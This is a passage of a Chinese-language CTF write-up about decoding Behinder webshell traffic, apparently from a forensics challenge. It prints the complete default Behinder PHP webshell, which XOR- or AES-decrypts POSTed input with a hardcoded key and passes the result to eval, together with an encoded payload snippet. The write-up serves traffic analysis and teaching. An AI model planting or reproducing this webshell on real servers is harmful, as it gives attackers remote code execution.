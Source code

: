 ```php
$content="Y3dDMXpSa2o3OURScHlpcWNMVGVnNEt2ZVUyckR3SkJkcnVZakx4aGRXVnY3MkhkdHBkcFdYMXpJYkRQWVRPWmNhUDRMelhLdVZtT0VHczhCdDdqbmZQME5vOFEyVDdzTTNhajVHZWp4a2FHRkxiSU1UT1U1a0VWeGJIbmRwTkluU3liTkRienQ2QURXbllqOVZRNzRkbktBaGJVeEt2azFvM3M2MWNJU1pMZk1vQWdjY2Z3QnhMRHR1TnlETldaamJKVE8yOTFsU2pvak5jOGdrT2pKYlFwMTIzZnhSUXRHVmhrY05hdmNPbzV5a2tVR2JWQ2s=";
$content=base64_decode($content);
main($content);
```

分析得到加密过程：base64 encode -> XOR(default)/AES(openssl)。这里是 base64 encode -> XOR。



### decode progress

同样地，理解解密的过程。

```php
<?php
@error_reporting(0);
session_start();
// MD5(rebeyond) => e45e329feb5d925ba3f549b17b4b3dde
$key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
$_SESSION['k']=$key;
session_write_close();
$post=file_get_contents("php://input");
if(!extension_loaded('openssl'))
{
    // base64 decode
    $t="base64_"."decode";
    $post=$t($post."");

    // XOR decrypt
    for($i=0;$i<strlen($post);$i++) {
        $post[$i] = $post[$i]^$key[$i+1&15];
    }
    // 此时 $post 为明文文本
}
else
{
    $post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __invoke($p) {eval($p."");}}
@call_user_func(new C(),$params);
?>
```

得到解密过程为：base64decode -> XOR。

具备这些知识后，我们开始进行解题。


